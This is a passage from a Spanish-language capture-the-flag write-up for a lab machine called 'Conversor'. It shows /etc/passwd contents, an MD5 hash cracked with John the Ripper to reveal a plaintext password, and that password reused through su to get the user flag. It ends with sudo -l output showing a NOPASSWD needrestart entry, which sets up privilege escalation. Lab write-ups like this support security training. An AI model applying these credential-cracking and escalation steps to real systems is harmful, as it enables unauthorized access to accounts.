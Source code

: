 Info:

```
root:x:0:0:root:/root:/bin/bash
fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash
```

Vamos a intentar `crackear` dicha contraseña a ver si fuera la misma que la del usuario a nivel de sistema.

> hash

```
fismathack:5b5c3ac3a1c897c94caad48e6c71fdec
```

Ahora vamos a probar a `crackearlo`...

```shell
john --format=Raw-MD5 --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Keepmesafeandwarm (fismathack)     
1g 0:00:00:00 DONE (2025-10-26 03:04) 2.272g/s 24938Kp/s 24938Kc/s 24938KC/s Keiser01..Keepers137
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Veremos que ha funcionado, ahora si probamos la contraseña con el usuario...

```shell
su fismathack
```

Metemos como contraseña `Keepmesafeandwarm`...

```
fismathack@conversor:/var/www/conversor.htb/instance$ whoami
fismathack
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
207a806493862bc608aaeafbb1638af0
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```
